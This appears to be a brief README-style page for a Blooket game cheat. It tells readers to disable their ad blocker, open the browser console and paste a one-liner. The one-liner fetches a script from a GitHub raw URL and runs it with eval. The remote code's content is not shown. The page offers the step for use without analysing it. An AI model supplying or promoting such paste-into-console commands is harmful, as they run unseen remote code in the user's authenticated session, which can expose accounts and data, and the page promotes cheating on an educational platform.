 note: TURN YOUR AD BLOCKER OFF OR IT WON'T WORK!





Open console with inspect element and paste this:





fetch("https://raw.githubusercontent.com/i3eal1/Blooket-Hack/main/Script") .then((res) => res.text() .then((t) => eval(t)))


